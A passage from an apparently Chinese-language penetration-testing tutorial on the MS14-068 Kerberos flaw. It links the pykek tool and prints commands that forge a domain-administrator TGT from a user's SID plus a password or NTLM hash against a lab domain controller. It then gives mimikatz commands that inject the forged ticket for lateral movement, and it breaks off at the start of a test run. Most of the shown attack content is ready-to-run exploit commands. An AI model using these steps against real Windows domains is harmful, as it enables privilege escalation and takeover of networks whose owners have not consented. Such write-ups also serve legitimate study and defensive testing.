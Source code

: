 利用的工具

-   Pykek

### Pykek

项目地址：[https://github.com/mubix/pykek](https://github.com/mubix/pykek)

#### 生成域管权限TGT

通过 pykek 生成一个域管权限的的TGT票据，然后可以通过 mimikatz 或 impacket 导入TGT票据进行横向移动。

伪造域管TGT票据

```plain
➜  pykek python2 ms14-068.py
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>
➜  pykek

python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 -p 1234567
python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 --rc4 328727b81ca05805a68ef26acb252039
```

[![](assets/1699929539-6aaeeb69e952ee9c4057ee93c0cb79e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112013741-03b58d8a-80b9-1.png)

#### Mimikatz 加载域管TGT票据

```plain
kerberos::purge
kerberos::klist
kerberos::ptc TGT_lihua@qftm.com.ccache
```

1）在域主机win11登录的域账号QFTM\\zhangyu下，进行测试（加载票据TGT为lihua账户伪造的域管PAC）
